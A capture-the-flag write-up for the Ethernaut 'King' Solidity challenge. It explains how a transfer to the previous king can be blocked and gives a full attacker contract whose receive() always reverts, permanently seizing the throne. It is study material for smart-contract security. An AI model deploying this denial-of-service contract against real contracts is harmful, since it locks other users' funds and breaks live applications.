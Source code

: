 # Ethernaut Level 09 - King Challenge

## Objective

The goal of the Ethernaut Level 09 - King challenge is to break the game. The game is simple: whoever sends an amount of ether that is larger than the current prize becomes the new king. When a new king arises, the overthrown king gets paid the new prize. The challenge is to prevent the level from reclaiming the kingship after you've become the king.

## Vulnerability

The vulnerability is in the function that transfers funds to the previous king. This triggers a fallback function in another contract. If we revert this fallback function, it prevents a new king from being set.

```solidity
receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }
```

## Exploit

The exploit is to create a contract that sends the minimum ether to the King contract, thus becoming the new king. When the level tries to reclaim the kingship by sending an equivalent amount of prize money to the contract, it reaches the `transfer` function. The function tries to send the amount to the previous king, which is my contract. However, my contract won't implement a `fallback()` or `receive()` function to handle ether transfer. As a result, the transfer call will revert, reverting the whole transaction and preventing the level from becoming the new king.. this can be also solved by reverting in `receive()` or `fallback()`

Here is the contract that was used for the attack:

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.7.3;

interface IKing {
    function changeOwner(address _owner) external;
}

contract KingAttacker {
    IKing public challenge;

    constructor(address challengeAddress) {
        challenge = IKing(challengeAddress);
    }

    function attack() external payable {
        require(msg.value == 1 ether, "please send exactly 1 ether");
        // claim throne
        // use call here instead of challenge.transfer because transfer
        // has a gas limit and runs out of gas
        (bool success, ) = payable(address(challenge)).call{value: msg.value}(
            ""
        );
        require(success, "External call failed");
    }

    receive() external payable {
        require(false, "cannot claim my throne!");
    }

    // fallback() external {
    //     revert();
    // }
}
```
